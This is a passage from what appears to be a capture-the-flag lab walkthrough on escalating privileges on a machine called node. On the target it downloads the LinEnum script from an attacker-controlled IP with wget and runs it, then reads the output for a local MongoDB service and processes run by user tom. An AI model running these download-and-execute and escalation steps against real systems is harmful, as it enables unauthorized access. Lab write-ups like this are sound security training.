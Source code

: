 In the target machine, move to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Below are the important snippets of the script output that will allow us to escalate privileges to tom.

```text
### NETWORKING  ##########################################
.....
[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -
.....### SERVICES #############################################
[-] Running processes:USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
.....
tom       1196  0.0  7.3 1028640 56072 ?       Ssl  03:44   0:06 /usr/bin/node /var/www/myplace/app.js
mongodb   1198  0.5 11.6 281956 87956 ?        Ssl  03:44   2:43 /usr/bin/mongod --auth --quiet --config /etc/mongod.conf
tom       1199  0.0  5.9 1074616 45264 ?       Ssl  03:44   0:07 /usr/bin/node /var/scheduler/app.js
....
```

The **networking** section tells us that mongodb is listening locally on port 27017. We can connect to it because we found hardcoded credentials in the app.js file. The **services** section tells us that there is a process compiling the app.js file that is being run by Tom. Since we are trying to escalate our privileges to Toms’, let’s investigate this file.

```text
mark@node:/tmp$ ls -la /var/scheduler/
total 28
drwxr-xr-x  3 root root 4096 Sep  3  2017 .
drwxr-xr-x 15 root root 4096 Sep  3  2017 ..
-rw-rw-r--  1 root root  910 Sep  3  2017 app.js
drwxr-xr-x 19 root root 4096 Sep  3  2017 node_modules
-rw-rw-r--  1 root root  176 Sep  3  2017 package.json
-rw-r--r--  1 root root 4709 Sep  3  2017 package-lock.json
```
